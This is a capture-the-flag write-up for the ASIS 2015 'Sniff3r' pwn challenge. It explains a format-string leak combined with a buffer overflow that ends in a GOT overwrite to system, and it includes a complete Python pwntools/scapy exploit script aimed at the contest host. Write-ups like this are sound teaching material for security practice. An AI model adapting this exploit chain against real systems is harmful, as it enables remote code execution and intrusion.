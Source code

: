 ```yaml
---
layout: post
title: "ASIS 2015 Finals: Sniff3r (pwn200)"
modified: 2015-10-15
tags: asis asis2015finals pwn libpcap
---
```


*This challenge was solved by and the write up was written by one of my teammates, [tukan](https://twitter.com/kapteinemalje)*

We were given an x64 ELF binary and the corresponding libc. It had most protections enabled but still had writeable .got entries. 

Reversing the challenge revealed that:

- the binary sniffs trafic via libpcap.
- processes only icmp and tcp/80 traffic.
- the icmp handler contains an information leak via a format string bug.
- the tcp handler contains a buffer overflow inside the structure allocated for tcp connections, allowing us to modify pointers later used as destination addresses for memcpy calls with attacker-controlled source data.
    
The relevant parts of the struct:

{% highlight c %}
struct connection {
	char hostname[256];
	char *username;
	char *password;
	...
}
{% endhighlight %}

The exploitation plan is as follows:

- leak pointers to libc and the binary from the stack using the format string bug.
- overwrite the username pointer in the connection struct with the address of the strstr .got entry.
- overwrite the strstr got entry (called on attacker-controlled data in the tcp handler) via the address of system from libc.
- read the flag using the the shell command: ". ./flag" (made possible by stderr coming back from the binary)

![alt]({{ site.url }}/images/asis2015finals/sniffer.png)

The flag was:
{% highlight text %}
ASIS{9327c8a200259781799e2a1a4966a371}
{% endhighlight %}

### Exploit

(not stable, you probably have to run multiple times)
    
{% highlight python %}
#! /usr/bin/env python
from pwn import *
from scapy.all import *

# LIVE = False
LIVE = True
def round():
    if LIVE:
        HOST = '185.82.202.66'
        r = remote(HOST, 2222)      # knocking
    else:
        HOST = '192.168.0.22'

    print 'HOST: ', HOST

    context.update(arch='amd64', os='linux')

    def leakit():
        payload = '%x'*10 + 'ZZZ' + '%p' + 'YYY' + '%x'* 6 + 'KKK%pLLL' + '%x'*112  + 'AAA' + '%p' + 'BBB' +'a'*440
        print 'payloadlen: ', len(payload)
        p = sr1(IP(dst=HOST)/ICMP()/payload, timeout=2)
        if not p:
            return None, None, None
        resp = str(p[Raw])
        print 'Resp: ', resp, len(resp)
        cookie = resp.split('ZZZ')[1].split('YYY')[0]
        cookie = int(cookie, 16)
        bin_addr = resp.split('KKK')[1].split('LLL')[0]
        bin_addr = int(bin_addr, 16)
        libc_addr = resp.split('AAA')[1].split('BBB')[0]
        libc_addr = int(libc_addr, 16)

        return bin_addr, libc_addr, cookie


    bin_addr, libc_addr, cookie = leakit()
    if not bin_addr:
        return
    print 'bin: ', hex(bin_addr)
    print 'libc: ', hex(libc_addr)
    print 'Cookie: ', hex(cookie)

    libc_diff = 0x7ffff7833ec5 - 0x00007ffff7812000
    libc_base = libc_addr - libc_diff
    system_offset = 0x0000000000046640
    system = libc_base + system_offset
    bin_diff = 0x182C
    bin_base = bin_addr - bin_diff
    strstr_offset = 0x203128
    strstr = bin_base + strstr_offset


    payload = 'Host: ' + cyclic(256) + p64(strstr) + '\r\nusername=' + p64(system) + '&password=' + 'A'*6 + '\r\n'
    q = send(IP(dst=HOST)/TCP(dport=80)/payload)
    # q = send(IP(dst=HOST)/TCP(dport=80)/'echo kaosdkas > /tmp/lolci #')
    q = send(IP(dst=HOST)/TCP(dport=80)/'. ./flag')
    r.interactive()

round()
{% endhighlight %}